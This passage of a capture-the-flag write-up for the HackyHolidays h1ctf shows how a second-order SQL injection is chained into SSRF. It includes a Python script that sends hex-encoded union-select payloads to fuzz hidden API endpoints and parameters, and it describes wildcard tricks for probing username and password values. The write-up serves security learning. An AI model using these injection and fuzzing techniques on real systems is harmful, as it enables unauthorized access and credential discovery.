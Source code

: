 This successfully prooves that we can use sql-injection in 1st query to do sql-injection in 2nd query and manipulate the img-path to visit any URL we want.
Now we have SSRF, our next step should be to look for all interesting endpoints under `/api/*` for which I wrote a python script to perform the above steps and fuzz for hidden endpoints
```python
def find(directory):

  unhex = ("1' union select 1,2,'../api/"+directory.strip()+"'#").encode("hex")
  url = """https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-1'+union+all+select+unhex("{}"),"x","x"--+-""".format(unhex)
  r = requests.get(url).text

  val = re.search("data=(.*cL3VwbG9hZHNcLy.*)\"", r).group(1)

  x  = requests.get("https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data="+val)

  if "Received: 404" not in x.text:
    print(x.text, directory)

  return

directory_list = open("directory-fuzz.txt", "r").split("\n")

for directory in directory_list:
    find(directory)
```

After running the above script for a while with different directories, we will have hit for 2 API endpoints
```
/user -> Invalid content type detected
/ping -> Invalid content type detected
```

Next we can try fuzzing for parameters these endpoints take. Sending something like
```python
find("user/?name=1") # we get response 'Expected HTTP status 200, Received: 400'
```
Status 400 from API documentation means `Invalid GET/POST variable`. Thus it means we have a way to find the parameters these endpoints accept. We can reuse the above script but for fuzzing `parameters` this time. 

```python
parameters = open("parameters.txt", "r")
for parameter in parameters:
    find(f"user/?{parameter}=1")
```

Above script reveal the following parameters:
```
/api/user has 2 parameters -> username, password
/api/ping has 0 parameters 
```

A bit of fuzzing the parameter username and password reveals 
* sending `username=%&password=%` returns `Invalid content type detected`
* sending `username=%&password=ZZZ%` returns `Expected HTTP status 200, Received: 204`
